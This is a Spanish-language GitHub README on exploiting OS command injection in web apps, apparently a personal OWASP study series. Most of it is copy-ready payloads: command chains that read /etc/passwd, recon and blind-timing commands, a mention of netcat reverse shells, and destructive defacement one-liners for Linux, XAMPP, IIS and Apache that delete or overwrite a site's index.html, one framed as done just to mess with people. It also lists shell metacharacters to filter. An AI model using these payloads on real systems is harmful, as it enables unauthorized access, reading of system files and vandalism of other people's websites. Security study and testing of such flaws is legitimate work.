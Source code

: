 # Fz3r0 OWASP 💀🐝 - Command Injection 💉

## 💀 ¿Cómo explotar vulnerabilidad CMDI?

Una vez que se encontró la vulnerabilidad `in-band` o `blind` se procede a explotar de las siguientes maneras: 

## 💣 `In-Band CMDI: exploitation`

1. 💥 Utilizar `shell metacharacters` como [payload](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/blob/main/12_Fz3r0_CMDI_-_Payloads/Command_Injection_Payloads.md) inicial:

````py
## General deny list to be included for command injection:
| ; & $ > < ' \ ! >> #

## Escape or filter special characters for --->>> Windows
( ) < > & * ‘ | = ? ; [ ] ^ ~ ! . " % @ / \ : + , `

## Escape or filter special characters for --->>> Linux
{ } ( ) > < & * ‘ | = ? ; [ ] $ – # ~ ! . " %  / \ : + , `

````

2. 💥 **Concatenar** comandos:

````py
## Concatena 127.0.0.1 + cat /etc/passwd + (concatena lo que sigue en el comando original con un &)

### Opción 1:
127.0.0.1 && cat /etc/passwd &

### Opción 2:
127.0.0.1 & cat /etc/passwd &

### Opción 3:
127.0.0.1 || cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

### Opción 4:
127.0.0.1 | cat /etc/passwd &

.
.
.

etc

````

![image](https://github.com/Fz3r0/Fz3r0_-_Command_Injection/assets/94720207/0fea0616-dca8-425d-845c-2b183a4c633a)

### Ejemplos de payloads:

- `Linux`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| ls          | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| sleep       | Otro payload útil para probar una aplicación en busca de una inyección de comandos a ciegas, especialmente si la máquina no tiene instalado el comando ping.                                                                          |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   |

- `Windows`:

| **Payload** | **Descripción**                                                                                                                                                                                                                       |   |
|-------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|---|
| whoami      | Muestra el usuario bajo el cual se está ejecutando la aplicación.                                                                                                                                                                     |   |
| dir         | Lista el contenido del directorio actual. Puedes encontrar archivos como configuraciones, tokens y claves de aplicaciones, y muchas otras cosas valiosas.                                                                             |   |
| ping        | Este comando provocará que la aplicación se quede colgada. Útil para probar una aplicación en busca de una inyección de comandos a ciegas.                                                                                            |   |
| timeout     | Este comando también provocará que la aplicación se quede colgada. Es útil para probar una aplicación en busca de una inyección de comandos a ciegas si el comando ping no está instalado.                                            |   |
| nc          | Netcat se puede usar para generar una shell inversa en la aplicación vulnerable. Puedes utilizar este punto de apoyo para moverte por la máquina objetivo y buscar otros servicios, archivos o posibles formas de elevar privilegios. |   | 

- `index.html defacement`

Algo un poco mas complejo como un `defacement` se podría ver algo así:

1. Buscar por algún archivo con la extensión `*.html` / buscar directamente por el `*.index.html` / mapear directorio default para hosting de página. 

````sh
# Ejemplo 1
127.0.0.1 ; find / -type f -name "*.html" &

# Ejemplo 2
127.0.0.1 ; ls /var/www/ &

````

2. Crear un nuevo `index.html` con el defacement utilizando un `one-liner`, el original se guarda en un backup `.bak`:

````sh
127.0.0.1 ; cp /var/www/html/index.html /var/www/html/index.bak && echo "Hola mundo, soy Fz3r0" > /var/www/html/index.html &

````

O algo todavía más complejo, esto ya es un código HTML para un buen defacement _(aquí borramos la página original sin guardar backup, solo por chingar)_:

- **`Linux`:**

````sh
127.0.0.1 ; rm /var/www/html/index.html && echo '<!DOCTYPE html><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el titulo Fz3r0</h1><h2>Este es el titulo 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html>' > /var/www/html/index.html &

````

- **`Windows`:**

````cmd
## XAMPP copiando original:
127.0.0.1 & ren C:\xampp\htdocs\index.html index.bak & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## XAMPP borrando original:
127.0.0.1 & copy NUL C:\xampp\htdocs\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\xampp\htdocs\index.html &

## IIS borrando original:
127.0.0.1 & copy NUL C:\inetpub\wwwroot\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\inetpub\wwwroot\index.html &

## Apache copiando original:
127.0.0.1 & ren C:\mi_apache\www\index.html index.bak & copy NUL C:\mi_apache\www\index.html & echo ^<!DOCTYPE html^><html><head><title>Este es un título de prueba</title><style>body{background-color:black;color:white;}h1{color:yellow;}h2{color:cyan;}</style></head><body><h1>Este es el título Fz3r0</h1><h2>Este es el título 2 Fz3r0</h2><p style="color:red;">Este es el contenido en rojo y yo soy Fz3r0</p><img src="https://ejemplo.com/imagen.jpg" alt="Imagen de ejemplo"></body></html> > C:\mi_apache\www\index.html &

````

## 💣 `Out-Of-Band AKA "Blind" CMDI: exploitation`

La inyección de comandos a ciegas o `blind`, ocurre cuando se produce una inyección de comandos; sin embargo, no hay una salida visible, por lo que no es inmediatamente detectable. Por ejemplo, se ejecuta un comando, pero la aplicación web no muestra ningún mensaje.

Para este tipo de inyección de comandos, necesitaremos utilizar payloads que causen cierto retraso en el tiempo. Por ejemplo, los comandos `ping` y `sleep` son payloads que normalmente se utilizan para probar. 

- Usando `ping` como ejemplo, la aplicación se quedará colgada durante x segundos en relación con la cantidad de pings que hayas especificado.

Otro método para detectar la inyección de comandos a ciegas es forzando alguna salida o `output`. Esto se puede lograr utilizando operadores de redirección como `>` de Linux. 

- Por ejemplo, podemos indicarle a la aplicación web que ejecute comandos como `whoami` y redireccionarlos a un archivo.
- Luego, podemos utilizar un comando como `cat` para leer el contenido de este archivo recién creado.
- El comando `curl` es una excelente manera de probar la inyección de comandos. Esto se debe a que puedes usar `curl` para enviar y recibir datos desde una aplicación en tu payload.
- Probar la inyección de comandos de esta manera a menudo es complicado y requiere bastante experimentación, especialmente porque la sintaxis de los comandos varía entre `Linux` y `Windows`.

Por ejemplo, un payload simple de curl a una aplicación es posible para la inyección de comandos como el siguiente:

````sh
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoami
````

## 📖 Recursos

- [Port Swigger - Command Injection](https://portswigger.net/web-security/os-command-injection)
- [OWASP - Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [OWASP - Command Injection Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [OWASP - Testing for Command Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)
- [Udemy - Rana Khalil | Command Injection ](https://www.udemy.com/course/mastering-command-injection-the-ultimate-hands-on-course/learn/lecture/39297722#overview)
